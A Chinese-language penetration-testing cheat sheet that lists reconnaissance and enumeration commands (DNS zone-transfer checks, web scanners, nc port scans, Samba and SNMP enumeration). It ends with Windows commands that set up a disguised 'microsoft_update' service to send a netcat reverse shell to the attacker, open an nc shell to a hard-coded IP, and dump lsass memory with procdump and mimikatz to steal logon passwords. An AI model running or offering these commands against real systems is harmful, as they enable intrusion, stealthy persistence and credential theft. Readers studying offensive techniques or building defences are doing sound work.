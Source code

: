 注：Fierce 会检查 DNS 服务器是否允许区域传送。如果允许，就会进行区域传送并通知用户，如果不允许，则可以通过查询 DNS 服务器枚举主机名。类似工具：subDomainsBrute 和 SubBrute 等等

# http://ha.ckers.org/fierce/
$ ./fierce.pl -dns example.com
$ ./fierce.pl –dns example.com –wordlist myWordList.txt
使用 Nikto 扫描 Web 服务

nikto -C all -h http://IP
扫描 WordPress

git clone https://github.com/wpscanteam/wpscan.git && cd wpscan
./wpscan –url http://IP/ –enumerate p
HTTP 指纹识别

wget http://www.net-square.com/_assets/httprint_linux_301.zip && unzip httprint_linux_301.zip
cd httprint_301/linux/
./httprint -h http://IP -s signatures.txt
使用 Skipfish 扫描

注：Skipfish 是一款 Web 应用安全侦查工具，Skipfish 会利用递归爬虫和基于字典的探针生成一幅交互式网站地图，最终生成的地图会在通过安全检查后输出。

skipfish -m 5 -LY -S /usr/share/skipfish/dictionaries/complete.wl -o ./skipfish2 -u http://IP
使用 NC 扫描

nc -v -w 1 target -z 1-1000
for i in {101..102}; do nc -vv -n -w 1 192.168.56.$i 21-25 -z; done
Unicornscan

注：Unicornscan 是一个信息收集和安全审计的工具。

us -H -msf -Iv 192.168.56.101 -p 1-65535
us -H -mU -Iv 192.168.56.101 -p 1-65535

-H 在生成报告阶段解析主机名
-m 扫描类型 (sf - tcp, U - udp)
-Iv - 详细
使用 Xprobe2 识别操作系统指纹

xprobe2 -v -p tcp:80:open IP
枚举 Samba

nmblookup -A target
smbclient //MOUNT/share -I target -N
rpcclient -U "" target
enum4linux target
枚举 SNMP

snmpget -v 1 -c public IP
snmpwalk -v 1 -c public IP
snmpbulkwalk -v2c -c public -Cn0 -Cr10 IP
实用的 Windows cmd 命令

net localgroup Users
net localgroup Administrators
search dir/s *.doc
system("start cmd.exe /k $cmd")
sc create microsoft_update binpath="cmd /K start c:\nc.exe -d ip-of-hacker port -e cmd.exe" start= auto error= ignore
/c C:\nc.exe -e c:\windows\system32\cmd.exe -vv 23.92.17.103 7779
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords"
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz.exe "sekurlsa::minidump lsass.dmp" "log" "sekurlsa::logonpasswords"
C:\temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp 32 位系统
C:\temp\procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp 64 位系统
PuTTY 连接隧道

